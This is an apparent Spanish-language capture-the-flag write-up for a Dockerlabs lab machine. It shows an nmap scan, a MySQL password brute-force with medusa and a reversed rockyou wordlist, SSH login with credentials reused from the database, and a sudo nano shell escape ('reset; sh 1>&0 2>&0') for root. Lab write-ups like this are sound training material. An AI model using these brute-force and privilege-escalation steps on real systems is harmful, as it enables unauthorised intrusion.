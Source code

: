 Máquina Capypenguin

Inciamos con nmap para el reconocimiento inicial:

```
# Nmap 7.94SVN scan initiated Fri Apr 19 08:55:08 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-19 08:55:08 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos un ssh uh http y un mysql, vamos a empezar enumerando el http:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/cb7ef27c-9c30-453f-bdd9-ed7738de3c71)

Bueno teniendo en cuneta lo que nos dice la páguina web:

```
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

Ahora hacemos la explotación con medusa:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/c594fb6a-0121-4880-866f-0080f0f46856)

y nos encuentra la contraseña de la base de datos mysql, vamos a meternos dentro a ver uqe hay:

Dentro de la base de datos encontramos unas credenciales, vamos a probarlas en el ssh:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/18f615ea-70dd-43a5-bb23-3e75adadc02b)


y efectivamente estamos dentro del ssh, iniciamos la escalada:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/bf2d3b83-0c1f-47f7-807b-01d23ccb41b9)


Al poner el comando sudo -l me encuentro que nano lo puedo utilizar como super usuario:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/2e27727f-398b-421c-879e-745ed828cf0e)


Dificultado 1/5


